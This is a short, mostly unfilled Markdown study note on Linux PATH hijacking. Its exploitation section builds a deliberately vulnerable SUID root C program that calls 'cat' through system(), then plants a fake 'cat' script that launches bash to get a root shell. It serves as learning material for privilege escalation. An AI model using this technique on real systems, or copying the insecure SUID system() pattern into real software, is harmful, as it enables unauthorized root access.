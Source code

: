 # [Topic Name]  
Path Hijacking

`⚠️` **Difficulty Level**: Begginer
`📅` **Last Updated**: 2025-08-16  

---

## 📌 Overview  
- Path Hijacking is a technique where an attacker can execute a malicious program by manipulating the PATH environment variable. 

---

## 🔍 Prerequisites  
**Knowledge**:  
- Basic Linux knowledge 

**Tools**:  

---

## 🛠️ Methodology  
### 1. Enumeration  
**Automated**:  
```bash

```  
**Manual Checks**:  
- Files/Permissions:  
  ```bash

  ```  
- Services/Ports:  
  ```bash

  ```  

### 2. Exploitation  
**Technique 1**: [Name]  
- **Description**:  
First we need to create a file that will be executed when the target runs a command. And contains root privileges.

```c
// compile with:
// gcc reader.c -o reader


#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VALID_FILES[] = {"01.txt", "02.txt"}; // list of names that the program considers allowed
int valid_files_count = 2; // stores how many valid files are in the list

int main( int argc, char**argv ){
    // validation
    if( argc < 2 ) {
        fprintf(stderr, "Usage: %s <filename>\n", argv[0]); //fprintf is used to print stdout with format
        return -1;
    }

    char *user_filename = argv[1];

    for(int i = 0; i < valid_files_count; i++){
        char *valid_filename = VALID_FILES[i];
        int length = strlen(valid_filename);

        if(!strncmp(user_filename, valid_filename, length)){
            char cmd[42] = {0};
            sprintf(cmd, "cat ./archive/%s", user_filename);
            setuid(0);
            setgid(0);
            system(cmd);
            return 0;
        }
    }
    printf("[INFO]: NO file with such names were found.\n");
    return 0;
}

```
Then, we need to compile the script, asign owners and set SUID perms.

```bash
gcc reader.c -o reader && sudo chown root reader && sudo chmod +s reader
```

After that, we need to create a cat file that runs a bash and sert execution permissions.

```bash
echo -en '#!/usr/bin/env sh\n/bin/bash\n' > cat && chmod +x cat
```
Once do this, we need to run de compiled file using the path hijacking technique. ANd we will get a bash like root.

```bash
PATH=.:$PATH ./reader 01.txt
```

## ⚠️ Common Vulnerabilities  


---

## 🧰 Tools Cheatsheet  


---

## 🎯 Practice Labs  


---

## 📚 References  


---

## 🚀 Quick Commands  
```bash

```
